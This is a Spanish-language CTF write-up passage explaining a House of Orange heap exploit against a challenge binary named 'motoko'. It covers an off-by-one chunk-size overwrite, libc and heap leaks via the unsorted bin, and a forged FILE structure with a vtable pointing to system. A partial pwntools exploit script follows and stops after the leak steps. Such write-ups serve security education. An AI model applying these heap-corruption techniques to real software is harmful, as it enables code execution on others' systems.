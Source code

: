 Para hacer House of Orange necesitamos leaks tanto de libc como del heap. Para esto podemos usar nuestro off-by-one para sobreescribir el size de un chunk a uno mayor, luego liberar este chunk, haciendo que se vaya a unsortedbin y dejandonos un puntero a libc. Luego podemos alloquear de nuevo, y el ptr a libc se "empujara" a nuestro siguiente chunk alloqueado. Ahora podemos leerlo usando la funcion (4) para conseguir nuestro leak de libc. Luego, podemos seguir un procedimiento similar para obtener chunks superpuestos, y tras liberar uno usar la funcion para mostrar con el otro para obtener un leak de heap. Teniendo estos dos leaks, estamos listos para ejecutar el ataque de HoO.

Como nuestros chunks son siempre de size `0x58`, no cabe toda la FILE structure necesaria para HoO en uno solo. Tendremos que separarla en varios pedazos. En el primer chunk dejaremos un monton de ptrs a `system`, para luego apuntar nuestra `vtable` a este chunk. Luego, podemos construir la misma FILE structure. Debemos hacerla de forma bastante precisa, ya que hay algunos checks que debemos pasar para que se ejecute la funcion de la `vtable`.

Finalmente, el exploit definitivo queda asi:

```python
#!/usr/bin/python
from pwn import *

context.log_level = "DEBUG"
elf = ELF("./motoko")
libc = ELF("./libc.so.6")
#p = gdb.debug(elf.path, "c")
p = process(elf.path)
#p = remote("desafiosq4.duckdns.org", 9998)

def alloc():
    p.sendlineafter("> ", "1")

def free(ind):
    p.sendlineafter(">", "2")
    p.sendlineafter("index: ", str(ind))

def show(ind):
    p.sendlineafter("> ", "4")
    p.sendlineafter("index: ", str(ind))

def edit(ind, data):
    p.sendlineafter("> ", "3")
    p.sendlineafter("index: ", str(ind))
    p.sendafter("data: ", data)

alloc()
alloc()
alloc()
edit(2, p64(0x31)*8)

edit(0, "a"*0x58 + "\x91")

free(1)
alloc()

show(2)
leak = u64(p.recv(8))
libc.address = leak - 0x399b78

edit(3, "a"*0x58 + "\x61")

alloc()

free(0)
free(4)

show(2)
```